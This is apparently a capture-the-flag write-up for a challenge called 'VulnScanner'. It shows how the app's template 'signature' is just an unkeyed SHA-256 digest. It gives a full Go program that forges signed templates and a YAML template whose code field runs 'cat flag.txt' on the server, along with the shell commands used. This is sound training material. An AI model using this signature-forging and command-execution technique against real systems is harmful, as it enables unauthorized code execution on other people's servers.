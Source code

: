 # VulnScanner
![Image](https://github.com/user-attachments/assets/e56bfb0e-507b-4e54-9bb0-3631c92d0de2)

**Attachment:** [challenge.zip](https://github.com/user-attachments/files/19092981/challenge.zip)  
**Password:** snyk-ftf-2025

## Writeup

![Image](https://github.com/user-attachments/assets/fc6aa783-919b-446a-b20e-5068e07067e7)

"VulnScanner" is an open-source vulnerability scanner that allows you to test and automate security checks on your services. It uses custom **YAML**-based templates to define security checks such as HTTP status codes, response bodies, and other network parameters. The scanner sends requests to the specified services and compares the responses with predefined expectations. It's a useful tool for automating vulnerability testing in development or production environments.

In the "Explore Templates" section, I can see an example with a template that runs code:

![Image](https://github.com/user-attachments/assets/b1893dbc-0e3b-4e81-a2c3-64b6249e5ed2)

Additionally, a list of templates is provided:

![Image](https://github.com/user-attachments/assets/e9618614-976d-4349-aeed-697a2574e63e)

All provided examples are signed with a **known digest**:

```
a7f3546ab25c5e0f7f67a7fedbe77336c735de64b8ad1e75b88e7b1c5a2755c4
fd98ae330ebfa73e90fac55ee5eb1aac874acecf9fb3222f65a0de81fec27210
3ec41e2a51ff8ac34dadf530d4396d86a99db38daff7feb39283c068e299061a
```

If I try to upload a `.yaml` file, the site returns "Failed to verify template digest". I need to script a `golang` code that signs my template.

The following is the relevant part of the source code that signs the templates:

```golang
package utils

import (
	"crypto/sha256"
	"errors"
	"fmt"
	"io/ioutil"
	"os"
	"regexp"
	"strings"

	"gopkg.in/yaml.v3"
)

func SignTemplate(content string) (string, string, error) {
	normalizedContent := NormalizeContent(content)
	hash := sha256.Sum256([]byte(normalizedContent))
	hexHash := fmt.Sprintf("%x", hash)
	signedTemplate := fmt.Sprintf("%s\n# digest: %s\n", content, hexHash)
	return signedTemplate, hexHash, nil
}
```

```golang
func NormalizeContent(content string) string {
	var yamlContent interface{}
	err := yaml.Unmarshal([]byte(content), &yamlContent)
	if err != nil {
		return content
	}

	normalizedContent, err := yaml.Marshal(yamlContent)
	if err != nil {
		return content
	}
	normalizedContentStr := strings.TrimSpace(string(normalizedContent))
	return normalizedContentStr
}
```

I can reuse this code and add a **function** to accept a **template file** as an argument in order to sign it:

```golang
package main

import (
	"crypto/sha256"
	"fmt"
	"io/ioutil"
	"os"
	"strings"

	"gopkg.in/yaml.v3"
)

func SignTemplate(content string) (string, string, error) {
	normalizedContent := NormalizeContent(content)
	hash := sha256.Sum256([]byte(normalizedContent))
	hexHash := fmt.Sprintf("%x", hash)
	signedTemplate := fmt.Sprintf("%s\n# digest: %s\n", content, hexHash)
	return signedTemplate, hexHash, nil
}

func NormalizeContent(content string) string {
	var yamlContent interface{}
	err := yaml.Unmarshal([]byte(content), &yamlContent)
	if err != nil {
		return content
	}

	normalizedContent, err := yaml.Marshal(yamlContent)
	if err != nil {
		return content
	}
	normalizedContentStr := strings.TrimSpace(string(normalizedContent))
		return normalizedContentStr
	}

func main() {
	if len(os.Args) < 2 {
		fmt.Println("Usage: go run main.go <template_file>")
		return
	}

	templateFile := os.Args[1]
	content, err := ioutil.ReadFile(templateFile)
	if err != nil {
		fmt.Printf("Error reading file: %s\n", err)
		return
	}

	signedTemplate, _, err := SignTemplate(string(content))
	if err != nil {
		fmt.Printf("Error signing template: %s\n", err)
		return
	}
	fmt.Println(signedTemplate)
}
```

I created a **template** that reads the flag:

```yaml
name: Flag
description: text
type: http
requests:
  - method: GET
    path:
      - "/"
    matchers:
      - type: status
        status:
          - 200
code: cat flag.txt
```

After after creating the `golang` project, I installed the dependencies and ran the code to create a signed template:

```bash
go mod init yaml-signer
go get gopkg.in/yaml.v3
go run main.go template.yaml > signed_template.yaml
```

I finally uploaded my `signed_template.yaml` and get the flag:

![Image](https://github.com/user-attachments/assets/8cc420b8-82a1-4e66-9a90-423f75267311)

**flag{e800eecf32271d760b27201eef192ead}**
